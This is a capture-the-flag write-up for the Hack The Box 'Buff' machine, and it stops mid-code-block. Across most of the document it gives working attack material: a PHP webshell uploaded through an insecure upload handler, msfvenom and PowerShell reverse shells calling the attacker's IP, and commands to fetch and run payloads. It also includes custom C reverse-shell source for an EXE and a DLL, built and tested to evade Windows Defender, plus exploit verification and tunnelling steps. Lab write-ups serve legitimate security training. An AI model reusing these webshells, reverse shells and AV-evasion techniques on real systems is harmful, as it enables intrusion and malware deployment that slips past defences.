# [Buff](https://app.hackthebox.eu/machines/263)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.198 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS --script "default,safe" -p $tcpports -oA tcp --open -Pn -sV 10.10.10.198 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.198
# UDP quick scan
sudo nmap -sU -F --open -Pn -sV 10.10.10.198
```

The quick TCP scan returns the following:


Start the following web scanners (add `-x php` to `gobuster` because backend is PHP):

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
# start scanners
nikto -h http://10.10.10.198:8080/ --maxtime=120s --output=nikto.txt
gobuster dir -t 100 -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\
  -u http://10.10.10.198:8080/ &
```

Manually browse to the website at `http://10.10.10.198:8080/`:


This website looks thrown together. Scan it for URLs with the following Python script:

```python
import os
import re
import sys
import signal
import urllib
import requests
import subprocess

C_NORM='\033[0m'
C_BAD='\033[31m'
C_INFO='\033[36m'
C_GOOD='\033[32m'
C_WARN='\033[33m'

LOCAL_REGEX = r'(?:href|action|src) *= *[\"\'](?!http|ftp|https|mailto|://|//)(.*?)[\"\']'
EMAIL_REGEX = r'[a-zA-Z0-9._-]+@[a-zA-Z0-9._-]+\.[a-zA-Z0-9_-]+'
EXT_REGEX = r'(http|ftp|https)://([\w_-]+(?:(?:\.[\w_-]+)+))([\w.,@?^=%&:/~+#-]*[\w@?^=%&/~+#-])?'

def find_recursive(url, target_domain, int_urls, ext_urls, emails):
  try:
    r = requests.get(url, verify=False)
    if r.status_code != requests.codes.ok:
      print(f'[{C_WARN}!{C_NORM}] Bad HTTP status code {r.status_code} from --> {url} ...')
      return
    http = r.text
  except Exception as e:
    print(f'[{C_BAD}-{C_NORM}] Failed to connect to --> {url} ...')
    return
  print(f'[{C_INFO}*{C_NORM}] Parsing --> {url} ...')
  # find all full links
  for proto,domain,path in re.findall(EXT_REGEX, http):
    new_url = ''.join([proto,'://',domain,path])
    if (target_domain in domain) and (new_url not in int_urls):
      int_urls.add(new_url)
      find_recursive(new_url, target_domain, int_urls, ext_urls, emails)
    if (target_domain not in domain) and (new_url not in ext_urls):
      ext_urls.add(new_url)
  # find all local links
  for path in re.findall(LOCAL_REGEX, http):
    uri = urllib.parse.urlparse(url)
    new_url = f'{uri.scheme}://{uri.netloc.rstrip("/")}/{path.lstrip("/")}'
    if (target_domain in new_url) and (new_url not in int_urls):
      int_urls.add(new_url)
      find_recursive(new_url, target_domain, int_urls, ext_urls, emails)
    if (target_domain not in new_url) and (new_url not in ext_urls):
      ext_urls.add(new_url)
  # find all emails in internal links
  if target_domain in url:
    for email in re.findall(EMAIL_REGEX, http):
      if email not in emails:
        emails.add(email)

def display_results():
  print(f'[{C_GOOD}+{C_NORM}] DONE\n')
  print(f'[{C_GOOD}+{C_NORM}] Found {len(emails)} Emails:')
  for e in sorted(list(emails)):
    print(f'\t{e}')
  print(f'[{C_GOOD}+{C_NORM}] Found {len(int_urls)} Internal URLs:')
  for u in sorted(list(int_urls)):
    print(f'\t{u}')
  print(f'[{C_GOOD}+{C_NORM}] Found {len(ext_urls)} External URLs:')
  for u in sorted(list(ext_urls)):
    print(f'\t{u}')

def signal_handler(signal, frame):
  print(f'[{C_WARN}!{C_NORM}] Received signal {signal}. Stopping ...')
  display_results()
  exit(signal)

if __name__ == '__main__':
  requests.packages.urllib3.disable_warnings()
  requests.packages.urllib3.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
  try:
    requests.packages.urllib3.contrib.pyopenssl.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
  except AttributeError:
    # no pyopenssl support used / needed / available
    pass
  emails = set()
  int_urls = set()
  ext_urls = set()
  if len(sys.argv) != 3:
    print(f'Usage: python3 {sys.argv[0]} <target> <domain>')
    exit(1)
  signal.signal(signal.SIGINT, signal_handler)
  find_recursive(sys.argv[1], sys.argv[2], int_urls, ext_urls, emails)
  display_results()
```

This returns script the following internal URLs:



Looking at these pages doesn't show too much. The results from `gobuster` show the following when looking for HTTP 200  response codes:

```bash
cat gobuster.txt | grep 200
```



There are some new ones here that look interesting. Browsing to `/upload.php` shows the following:


That is a raw PHP error. Maybe this is an SQL injection? trying to set the HTTP GET request parameter `id` to anything just returns an empty page... 

Another interesting piece of info is found at the bottom of the website:



Looking at the page `/contact.php` also shows the following:



It turns out that `projectworlds.in` is an actual URL to the following website hosting free-to-download software:

- https://projectworlds.in/

Searching for `gym management` in the website returns the following:

- https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/
- https://youtu.be/J_7G_AahgSw

Downloading the source code for this website shows the content of `upload.php` to be the following:

- https://www.php.net/manual/en/function.move-uploaded-file.php

```php
<?php
include_once 'include/db_connect.php';
include_once 'include/functions.php';
$user = $_GET['id'];
$allowedExts = array(
    "jpg",
    "jpeg",
    "gif",
    "png",
    "JPG"
);
$extension = @end(explode(".", $_FILES["file"]["name"]));
if (isset($_POST['pupload']))
{
    if ((($_FILES["file"]["type"] == "image/gif") || 
         ($_FILES["file"]["type"] == "image/jpeg") || 
         ($_FILES["file"]["type"] == "image/JPG") || 
         ($_FILES["file"]["type"] == "image/png") || 
         ($_FILES["file"]["type"] == "image/pjpeg")) && 
         ($_FILES["file"]["size"] < 20000000000000) && 
         in_array($extension, $allowedExts))
    {
        if ($_FILES["file"]["error"] > 0)
        {
            echo "Return Code: " . $_FILES["file"]["error"] . "<br>";
        }
        else
        {
            if (file_exists("upload/" . $_FILES["file"]["name"]))
            {
                unlink("upload/" . $_FILES["file"]["name"]);
            }
            else
            {
                $pic = $_FILES["file"]["name"];
                $conv = explode(".", $pic);
                $ext = $conv['1'];

                move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $user . "." . $ext);
                $url = $user . "." . $ext;

                $query = "update members set pic=1, picName='$url' where id='$user'";
                if ($upl = $mysqli->query($query))
                {
                    header("location: profile/i.php");
                }
            }
        }
    }
    else {
      header("location: /profile/i.php");
    }
}
?>
```

It seems like there is a vulnerability in this code by following the these steps:

1. Set the `id` URL parameter to a value
2. Send a POST to `/upload.php` meeting the following url-encoded data:
   1. Set `pupload` to something
   2. Set `file` to an uploaded file meeting the following requirements:
      1. MIME type set to `image/gif` (or one of the approved ones from the `if` statement)
      2. Make sure file size is less than 20000000000000 bytes (lol)
      3. Make sure file ends with a valid extension from the `$allowedExts` array

If the above requirements are met, then the file should be uploaded to `/upload/$id.$ext`, which are values that the user can control. This means this exploit will likely allow for a webshell to be uploaded with the following Python:

```python
import io
import requests

PHP = """
<?php
if (isset($_REQUEST['c'])) {
  if (class_exists('ReflectionFunction')) {
    $f = new ReflectionFunction('system');
    $f->invoke($_REQUEST['c']);
  } elseif (function_exists('call_user_func_array')) {
    call_user_func_array('system', array($_REQUEST['c']));
  } elseif (function_exists('call_user_func')) {
    call_user_func('system',$_REQUEST['c']);
  } elseif (function_exists('system')){
    system($_REQUEST['c']);
  } 
}
?>
"""

# upload shell
r = requests.post('http://10.10.10.198:8080/upload.php', params={
  'id': 'bubba',
}, data={
  'pupload': 'ignored',
}, files={
  'file': (
    'ignored.php.gif', 
    io.StringIO(PHP), 
    'image/gif',
  )
})
```

After running the script, check if it worked:

```bash
curl -s -G --data-urlencode "c=whoami" http://10.10.10.198:8080/upload/bubba.php
```



Nice! Now get a dedicated shell:

```bash
# generate the payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         -a x86 \
         -f exe \
         -o bubba.exe
# host the payload 
python3 -m http.server 7777
# listen for callback
nc -nvlp 6969
# download payload through webshell:
curl -s -G http://10.10.10.198:8080/upload/bubba.php \
  --data-urlencode "c=powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.17:7777/bubba.exe','bubba.exe')"
# check upload worked
curl -s -G http://10.10.10.198:8080/upload/bubba.php \
  --data-urlencode "c=dir"
# execute payload
curl -s -G http://10.10.10.198:8080/upload/bubba.php \
  --data-urlencode "c=start /b whoami.exe"
```

However, this does not return a shell? Looking again for the uploaded `bubba.exe` payload shows that it somehow magically disappeared? This sounds like antivirus...

- https://superuser.com/questions/514232/get-antivirus-windows-commandline

Try checking the AV version through the webshell:

```bash
curl -s -G http://10.10.10.198:8080/upload/bubba.php \
  --data-urlencode "c=WMIC /Namespace:\\\\root\\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List"
```


Okay, the original payload was likely shot down by Windows Defender. Now make the payload evade anti-virus with `shellter`:

```bash
# generate payload again but in a raw format
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -a x86 \
         -f raw \
         -o bubba.bin
# install shellter 
sudo dpkg --add-architecture i386
sudo apt update
sudo apt -y install wine32 shellter
# copy over a normal windows binary
find / -iname whoami.exe 2>/dev/null
cp /usr/share/windows-resources/binaries/whoami.exe .
# start binary
sudo shellter
```

Then add the payload `bubba.bin` into the binary `whoami.exe` with the following steps:


Now take the resulting `whoami.exe` and upload it to https://www.virustotal.com to test if it will pass:



Nope, it was still caught by Microsoft or "Windows Defender". Trying some other basic `msfvenom` payload formats also still does not bypass the AV as well:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -a x86 -f vba-exe -e x86/shikata_ga_nai -i 50 -o bubba.vbs
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -a x86 -f vbs -e x86/shikata_ga_nai -i 50 -o bubba.vbs
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.17 LPORT=6969 -a x86 -f psh -e x86/shikata_ga_nai -i 50 -o bubba.ps1
```

Maybe try a basic PowerShell reverse TCP shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.17',6969); 
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String);
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush();
} 
$client.Close();
```

Base64 (UTF-16LE for Windows) encode and run:

```bash
# above PowerShell saved in bubba.ps1
b64_powershell = $(python3 -c "import base64;print(base64.b64encode(open('bubba.ps1').read().encode('UTF-16LE')).decode())")
# start listener
nc -nvlp 6969
# send command 
curl -s -G http://10.10.10.198:8080/upload/bubba.php --data-urlencode "c=powershell.exe -Enc $b64_powershell"
```

But this also does not work (it works for simple commands but no reverse shell or file downloading... )? Time to get serious...

AV evasion usually comes down to 2 phases to bypass:

1. Static signature detection
2. Runtime in-memory detection
3. Behavior detection (this is hard to beat easily)

Bypassing step 1 is usually done with encoding/encryption. The original `shellter` payload was likely caught because of this since the standard `msfvenom` payload was used without any encryption or unique encoding (`shikata_ga_nai` alone is not enough). Getting around this step can be done by using basic encryption like RC4 and adding in an encoding like Base64 or XOR. However, this alone will not stop runtime detection. Modern AVs will hook certain suspicious system functions. When malware calls these functions, AV swoops in and does an in-memory signature detection. So all the encryption/encoding from step 1 is gone/performed and AV will flag the malware.

Bypassing step 2 is usually done by modifying the shellcode payload to introduce variation so that signature detection fails. However, this is a hit and miss game. It is possible to get the assembly from a `msfvenom` payload as so:

```bash
# generate payload again but in a raw format
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         -a x86 \
         -f raw \
         -o bubba.bin
# disassemble payload
ndisasm -b 32 -p intel bubba.bin | tr -s ' ' | awk -F ' ' '{$1=$2="";print $0}'
```

However, this version of the assembly is raw and has hard-coded offsets:


So modifying this assembly will require a manual re-compilation of these offsets or the shellcode wont work. Next try to get the symbolic representation of the assembly:

```bash
# find metasm ruby library used in metasploit
find / -iname metasm.rb 2>/dev/null
# set ruby library path to find this library
RUBYLIB=$RUBYLIB:/usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/metasm-1.0.4/
# get symbolic disassembly
ruby /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/metasm-1.0.4/samples/disassemble.rb \
  --cpu Ia32 bubba.bin
```


Now this assembly can be modified by inserting NOPs like the following in the code to throw off signature detection at runtime:

- `nop`
- `mov eax, eax`
- `push eax` & `pop eax`

However, in this case, that still isn't enough... Next is to try "custom" malware. This means writing custom assembly (time-consuming) or cross-compiling C code that gives a reverse shell. The reason this can bypass AV is that it does not use common tools like `msfvenom` so it bypasses heuristic detection statically and dynamically. Here is a basic Win32 TCP reverse shell that spawns `cmd.exe`:

```c
/* Win32 TCP reverse cmd.exe shell
 * References:
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-sockaddr_in
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-inet_addr
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-htons
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
 * https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366877(v=vs.85)
 */
#define WIN32_LEAN_AND_MEAN

#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define TARGET_IP   "10.10.14.17"
#define TARGET_PORT 6969

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(TARGET_IP);
  sa.sin_port = htons(TARGET_PORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```

Compile the binary and upload to https://www.virustotal.com:

```bash
# above C code is saved in bubba.c
sudo apt install mingw-w64 wine
i686-w64-mingw32-gcc bubba.c -o bubba.exe -s -lws2_32
```


Nice! This one says its not detected by Microsoft. Test it out as follows:

```bash
# host payload over SMB (v2 needed since host is using a modern Windows)
sudo impacket-smbserver -smb2support BUBBA .
# start listener
nc -nvlp 6969
# send command to target (using ' to not escape \)
curl -s -G http://10.10.10.198:8080/upload/bubba.php --data-urlencode 'c=\\10.10.14.17\BUBBA\bubba.exe'
```

And this returns a valid shell!



Just for fun, can the shell payload bypass more AV detections? Try packaging the payload into a DLL to run the reverse shell when loaded by another process:

```c
/* Win32 TCP reverse cmd.exe shell
 * References:
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-sockaddr_in
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-inet_addr
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-htons
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
 * https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366877(v=vs.85)
 */
#define WIN32_LEAN_AND_MEAN

#include <string.h>
#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define TARGET_IP   "10.10.14.17"
#define TARGET_PORT 6969

DWORD WINAPI run(void) {
  int i;
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(TARGET_IP);
  sa.sin_port = htons(TARGET_PORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
  return 0;
}

__declspec(dllexport)
BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
  switch (dwReason) {
    case DLL_PROCESS_ATTACH:
      CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)run, NULL, 0, NULL);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

Then compile and execute on the target:

```bash
# the above C code is saved in bubba_dll.c
i686-w64-mingw32-gcc bubba_dll.c -o bubba.dll -shared -s -lws2_32
# host payload over SMB (v2 needed since host is using a modern Windows)
sudo impacket-smbserver -smb2support BUBBA .
# start listener
nc -nvlp 6969
# send command to target (using ' to not escape \)
curl -s -G http://10.10.10.198:8080/upload/bubba.php --data-urlencode 'c=rundll32 \\10.10.14.17\BUBBA\bubba.dll,entrypoint'
```

This also returns a shell with the following AV hits:



Not 100% but still better than the original `shellter` payload. Now enumerate the target system for privilege escalation...

Looking for interesting user files shows the following:

```
dir "C:\Users\" /a /b /s 2>nul | findstr /v /i "Favorites\\" | findstr /v /i "AppData\\" | findstr /v /i "Microsoft\\" |  findstr /v /i "Application Data\\"
```



`Tasks.bat` seems to just spawn the XAMPP runtime. This may be helpful later?

```
START C:/xampp/xampp_start.exe
```

However, `CloudMe_1112.exe` is an interesting file. Even more so when looking at running service binaries:

```
tasklist /svc
```



Looking at local network connections shows another interesting find:

```
netstat -ano
```


The 3306 is MySQL but 8888 is unique. Trying to find out the process listeneing on this port is difficult since the process seems to keep changing every couple of seconds:

```bash
powershell.exe -c "Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess"
for /f "tokens=5" %a in ('netstat -aon ^| findstr 8888') do tasklist /FI "PID eq %a"
```

Next try to look for vulnerabilities with the binary name:

```bash
searchsploit cloudme
```


Looking at exploit 48389, there is a link in the exploit description:

> Vendor Homepage: https://www.cloudme.com/en
> Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe

This link matches the name of the binary found on the target and the binary is running as a service. This is likely the privilege escalation vector. The exploit performs a simple stack buffer overflow to overwrite `eip` with the address of the ROP gadget `push esp, ret`. The payload of the exploit is also just a `windows/exec` from `msfvenom` that spawns `calc.exe` so that will need to be changed. 

First step is to verify the exploit locally before blindly using it. The ROP may need to be changed for the target. Download & install the vulnerable version of the binary at https://www.cloudme.com/downloads/CloudMe_1112.exe on a Windows machine. Then running the following Python with the application being debugged in Immunity shows the following error:

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
buf = b'\x90' * 1052
buf += b'AAAA' # should be EIP
s.connect(('127.0.0.1',8888))
s.send(buf)
```

 


It looks like the buffer offset is valid. Next, verify the ROP gadget. First get the byte codes for the instructions the exploit says are at the ROP gadget:

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```


So the target bytes are 0x54 and 0xC3. Use the Mona plugin in Immunity with the following command to see which binaries are loaded into `CloudMe.exe`:

```bash
!mona modules
```


The exploit says the ROP is at address 0x68A842B5, which is inside the binary for `Qt5Core.dll`. That binary does have ASLR and NX turned off as well. Next verify the bytes of the expected ROP with the following Mona command:

```bash
!mona find -s "\x54\xc3" -m "Qt5Core.dll"
```


The first address is the expected ROP so the exploit should work! However, to use this exploit, some port fowarding is needed to get access to the service running on `127.0.0.1:8888` on the target:

```bash
# on kali, find Win32 SSH binary & copy it over 
find / -iname plink.exe 2>/dev/null
cp /usr/share/windows-resources/binaries/plink.exe .
# on kali, host binary
sudo impacket-smbserver -smb2support BUBBA .
# on target, download binary using SMB
robocopy \\10.10.14.17\BUBBA\ . plink.exe /copy:DT /w:1 /r:1 /v
# on target, use remote port fowarding to get access to CloudMe on port 8888
# NOTE: set <password> to your machine's password
.\plink.exe -ssh -l user -pw "<password>" -v -N -R 8888:127.0.0.1:8888 10.10.14.17
```

However, this does not work with the following error:


Maybe there is a firewall rule blocking outbound TCP on port 22? It cannot be a network connectivity issue since there is a working reverse shell on that target... Trying the connection again but with a `tcpdump` running does not show any packet activity coming to Kali:

```bash
sudo tcpdump -i tun0 port 22
```

Looking at the Windows Firewall does not show any explicit rules blocking this connection using `netsh`:

```bash
# looking for SSH or port 22
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all 
```

Also, trying PowerShell does not show anything helpful either:


```powershell
# looking for SSH or port 22
Get-NetFirewallRule | 
where { $_.Enabled -eq $True } | 
Format-Table -Property Name,
                       DisplayName,
                       DisplayGroup,
                       @{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},
                       @{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},
                       @{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},
                       @{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},
                       Enabled,
                       Profile,
                       Direction,
                       Action
```

Since the reverse shell was able to connect, maybe try running SSH on a higher port?

```bash
# on kali, start new SSH server
sudo /usr/sbin/sshd -D -p 9999 & 
# on kali, start a tcpdump to look for connections
sudo tcpdump -i tun0 port 9999
# on target, try to login again
.\plink.exe -ssh -P 9999 -l user -pw "<password>" -v -N -R 8888:127.0.0.1:8888 10.10.14.17
```

That was able to connect! However, now there is a new error:


Looks like the `plink.exe` on the default Kali is out of date. Download a new one from https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html:

```bash
# on kali, download & host new plink.exe
rm plink.exe
wget https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe
sudo impacket-smbserver -smb2support BUBBA .
# on target, download & run new plink.exe
robocopy \\10.10.14.17\BUBBA\ . plink.exe /copy:DT /w:1 /r:1 /v
.\plink.exe -ssh -P 9999 -l user -pw "<password>" -v -N -R 8888:127.0.0.1:8888 10.10.14.17
```



Finally, that is a working connection reachable on Kali at `127.0.0.1:8888`:

```bash
